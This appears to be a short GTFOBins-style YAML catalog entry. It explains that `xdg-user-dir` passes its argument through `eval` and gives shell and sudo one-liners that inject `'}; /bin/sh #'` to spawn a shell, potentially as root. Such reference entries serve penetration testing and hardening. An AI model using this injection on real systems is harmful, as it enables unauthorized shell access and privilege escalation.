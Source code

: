 ```yaml
---
description: |
  The current implementation of `xdg-user-dir` is basically `eval echo \${XDG_${1}_DIR:-$HOME}`, thus is can be easily used to achieve command execution.
functions:
  shell:
    - code: |
        xdg-user-dir '}; /bin/sh #'
  sudo:
    - code: |
        sudo xdg-user-dir '}; /bin/sh #'
---
```

